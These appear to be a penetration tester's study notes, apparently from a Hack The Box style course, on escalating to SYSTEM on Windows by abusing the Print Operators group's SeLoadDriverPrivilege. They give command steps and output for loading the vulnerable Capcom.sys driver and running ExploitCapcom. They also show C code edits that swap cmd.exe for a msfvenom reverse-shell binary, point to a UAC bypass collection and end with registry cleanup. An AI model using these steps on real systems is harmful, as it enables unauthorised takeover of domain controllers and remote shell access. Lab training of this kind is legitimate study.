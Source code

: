 # Print operators
[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down.
## Note: doesnt work in 1809
## impact:
- grants `SeLoadDriverPrivilege` allows us to load any vulnerable driver that we upload 
- upload vulnerable driver that runs as system to gain SYSTEM EOP 

## requirements/obstacles
- If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, or there but disabled in elevated, we will need to bypass UAC.
- **IF UAC is enabled**: lookup uac bypasses here:https://github.com/hfiref0x/UACME

### exploitation steps
- t's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges.

- enabling the privilege,
- creating the registry key, and
- executing `NTLoadDriver` to load the driver. 
```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```
3. run `ExploitCapcom.exe` 
---
## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

The `CommandLine` string in this example would be changed to:

```c
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

We would set up a listener based on the `msfvenom` payload we generated and hopefully receive a reverse shell connection back when executing `ExploitCapcom.exe`. If a reverse shell connection is blocked for some reason, we can try a bind shell or exec/add user payload.

cleanup
```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```
